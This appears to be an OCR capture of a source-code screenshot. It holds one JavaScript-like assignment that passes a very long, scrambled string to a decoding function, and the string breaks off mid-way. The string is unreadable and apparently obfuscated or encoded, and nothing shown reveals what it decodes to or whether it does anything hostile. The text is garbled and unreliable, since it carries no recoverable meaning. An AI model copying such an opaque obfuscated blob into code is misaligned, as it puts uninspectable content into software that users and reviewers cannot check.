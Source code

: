 s=h(e,"Gl9MZ/qO4tCrbT{NT/q{9/TbtZ/l=lr4qNqtZNNtCNqr9T{M94{/t/ZbDMXCTT4t/4NrrNOOrbO{9t{1tOtlOO9lTZt{ZqTCbZOCMl{Mtt{MtC/_^Or{CO9T{NtC/lh4l9TrttZtN{bq9tlO{qCd/l2_/Zl)blO49NMq0tr/4Z9O{rMl{{t{//HbntTrCM//E4bZOZb/ObM9{tC(4r^NbtObMM{Cm4rtOb9rO{Mb{rC9/t/lMbN9CZM9)ZbbO{bCONMq{TCZ/rl9rtrNM4N/C//blMl9N/Cb/N{Tb944bb4MMtN^CO4NlqT/4MMCNlNqbZ4T9Z{TCt/ql4TOl4{M4/MbNMNMbN4{M4NCC9lZN{bO4rZq{br<l/Ngbb4TMZNOrl/CC{C/lrT94ttZ/NlOT4MbMtNMCT/TbNTTO{ZOCrr9qrlNTr4MM482C4/{TlTN44ZCN/qZZ49lT44{9CNMC4lbyttTZlMCE4qqqMltbN4OZrNlrMMO{{C//bNC1UrqlNlCTqtOM{1lrrqZr4qN9/TbtMOTu9b9qN9qTT{9r7OtebT/4C/9N{rrOlrrOT94TNtqtvOq9fTMtTZ/{rrTqb9MTN4N{9{9ZNWqrTTbtN/qotbMZl{TCZt{ZZllONqN94{Ct//tNTbOOb9/{ttl/Z*CbOqN9N{b/TZt+bblMC9Z{/tN/q_9rOqT9N{qq,l/xlrOO:9NC4CO/tlM4ZOZMZ{{qB/qICrC49N/{Ct//Zlf444OMfN4tq/{PO/rl{b4ONMqZbl4b9qM9N{/CNZZ{rb/O{l/b/MtNCCq/TlZlONltb/llMC{4l9TNbtNqMCtqtlqbT4ZCOql0CbZ4CZ9NOC/qlllq9MlbN4qMTZllCTl4O9M{bCl/ZNNTO4bMCNqCqqtN/bTONMq{{C{M499Tt4{TZ4bZlN4CNb/qZT/ttZ9Ntr^CCtxMC{TrO/NN/TC4{ZqNlrMO996qC9tTO4{Z/OM99Tb4TMb+MrNqTltqb9qTttvZOZ/lqTt44TrC4Z4NNrqr}tqZcNqr9OZTObl44Z{NbrCO/T4TqtqJ{I4r{Zb9{{MtrTNtqZbDMrCCq9TTNtqZT*qrrO99t{lrZZ{h/rbTrt{//!4b9Z%{bCM4NZrfbrMOqM*Tt/CZCFl4V/rlMCTCZMrNNCMMN9qrC9NNltb/MACMZTTCMZtstrTOr9Z{4tl/t:9//hbbMOCMl{btN/q.TTqr4M9{tC /t!{b/ObZ/{NCl/t*NbOOTMZ{rC9tTlvbOO{MO{bCZ/CllbrONMq{TC//rl9bt49MO{{C//Tl/bC4lM4Z{{T/{lTbr49MtqOlqT,4lMHNOrMqlFT/NlqbT4ZMbN/Ctq%lO{}b9MbNZCCq9l4bN4qZT9MCrqMltT94OM{N/CbqqlCTl44Z<NqCTqZlTT94tZ0N4r/q/lbTMbTrM/TlMbNtlZO4bZONtr%qO4{ZON/rlq{rlq4lNTq4TZ4Nrr9qtM9lZ4{Z/Nbr/qC9lT4ClZrNTr/qr9MTttBZON{Ntqb9MTCtMZ46xrqqT9OTrt9Zt+lrOq{9/UNtMZC>lrtO*9qTTtZObBZrtOg9OT{O/MMTZOCO9M#TNtqZT/r9C{Zt/ZZ{ZCNO/rTOb9C{lt4t9q{l{{q4bZ/WTr/OtrN4k9b{MtCtZOF9ZTtt4/Z_CrrOOMZ{C9N{ttb/M=C>q{qCZ/Mt{/rDrb9Ot4qZbAlbtOrM/CTM9NZtN/qpT3N{ttrZNY/trOMM4NmC//tlC/C7NbqOTMZ{rC9/tl2b44lM/{bCMb4OqMN4lMq{TCZ/r/9qCZCNO{NCq/blMbCr/MtNZCq/TlZMr{MC9q9lC/NlTbb4MMCZllOT9ONZl{TCCqPCrqIlOb{4/MbNMtC9mltT 4qMTNZTTqMlNT>4OM{M4l{b4OrZ/{TZ_NbCTqZlr99N/ClO;lMTOlTTt4CZlN4N9Cb4NM/N4CONCrtqOl{T/TtCZqllNTltMZrNlCtNbrMqt9zTObMZq!MrMqC9l94NrCOOqltTTt/TCttZON{r/r{44ZTNqrbZqlOTN4/TbtqZt0DrOr{tlMT(bZrhbr4qN9q9t<MC{qM9/betMMNm{rlO/rrOC94TNtqbZOM9TTTtb/7N4rlqCr{q/Nt{TOC/9bqlOrZ9TTN4Nb/{O9CZ9HlCMtb/lB4rNOqqT/TqNl98CbrOO9{{/{Mr4O{fZ{At4/9(lbqOgM%Or9tCO9b/Z_{4MTZOl{CtN/qyTbZOrM9TtTN/t{T{jrNMM/CqTOlbNbO4qMZ{rC9T?ONMt{Cttq,lbbCOqbCONMq{TCZ/rl9CtrNMt{{C//blMbCqlCT9NCOqZlZbr49tb/4fbbl4gZ;NMMrNrC4/NlqlZ{tCNZ/a{T94TMO{4ClNZrCqll4bNb{r9qljbT 44Mt{rtUqZlrTOqCM9NCrMNqC{q/9rT94tZ}Z9lOTl44l/NbCC/rlCCC49ZONNrZq49tq49%T/4bZM/tN4qt9MTq4TZZZ{lrTO4/T4t9Z/NbrMTl49Z/NZZOQqrZqr999T>OCbqM9Mr/tlZ8IFZt6MrqqT9Z/9NMr9OZrtq{9/TbtMZCZr4/9N9O{ttZZr19XT{O4bZM_MtNq49b{OtlZ9NrZNMIObZb94OTqMqOb/rTOZ9C{lt449)Ob4OZ9r{9T{rlOC9O{MtMMq:{bCOZ9ZOt9T{Ztr/C>tb^OO9N{Ntb/M C+b{ltr/9TNbqOZ9/{ZCM{4CO//#bbMNlC!/CeCbtOT9/T{tO{Crl/Ok{b/bOtb/qkTtC4l9N{_tN^r{qr{Ob9bN9tC/SCZ/Nllb4ONCq/N%Tbt4qbC4OMO{{C/C!O4MTN/CC/{lN/{lbbr49MtZOlqTz4lM)T.trqlCtqMlqbT4ZC9/Mlqb/l4Tb4/MbNMNBbC4qMMbbCqqql{Tq/bM4NeCC/tCbqMlCTl44/lNqCTqZ9T>44tZpNOr/q/lbTMCC/qN4CNqqlTTZ4TZ9ltb)qOl{T/4bZMgorl449OTq4TZZNrr9Ol9u{tClZ/N{rMqr9lT44NZqworZqr99TrtiZtN{rrOb9MTCtl/qNNrOqT9ZTrtq4/^2rOq{MMTbtZZClMN/qN9qTTtqZrE9rtt^tCT{t/Zb#MrCOO94NNCCZT ZrrO99t{ltOq{l9rbOM9C{lt4/ZvqrTOt9r{9tt/9LOrNO/M NrtC/lJ4TxOq9{{ZCT4NftbxOOM9{/tb/MlbbqO4MX{qCK/Z!rb9OtOZ{Ot{//u{bMOrMl{4C9/qYTbZObM9{tC+/N*{b/ObMZN4Cl/4+Nll{rtTqlpObbM!1r{MCl/llOrNO/bt4ZMq{TCZbr4ZM9{{Cr{NCT/blMbCT4COqll9blql9bN9MCNqCO/{l/lONlCMqOvTT9lOTl4ZMrN9l>bl4ZMM4qZMNMCCql/bMZNtrlqqlCTrlCTt4OM{N/9MT94bMbNrCN/Ol+btlb{84tZRNONZb{4CMOT(CCqC99TCqFMbNZC{/Tr%qOl{T/4b//NCrlq4MlPb4TZZNrrOqt9,TOC{/ZNbrMqC9lT4tqZqlTb/qr99TttUZOolr/4bMMTCtlZ4NNrqO/9Z{TtMZtj9rOO99/TbtMZCl{r4qN9qTNtZZT09rN449OT{t//C^MrrOl94TNtC4t&ZrrO9MO{xt4Z{lONtOM9C{ltNZN)qrTtZt{{9tt/=cOr{O49bzMCr/l*4rNOq9T{4trO9l{bKOO9{{/tb/tJCbl4q9N{qtT/qhrbMOtMZ{rt{//LbTZOCM9{4rltM2TbZOrMZ{tC_/O9cbCObMZ{CC9/4zNbqOTO4{rC9/tl9bOONM/{bCq/Cllb44WMq{TCZq9l9bt4PM4NCC//blMlb{qC//{lCb9/tZl{OCOqZlC/NlNbb4MMCM4sTTMqtM9Nqrl/rWbb/l4TC4/MbNMclb94lZMbbCbqq{{bC49Mb{rMN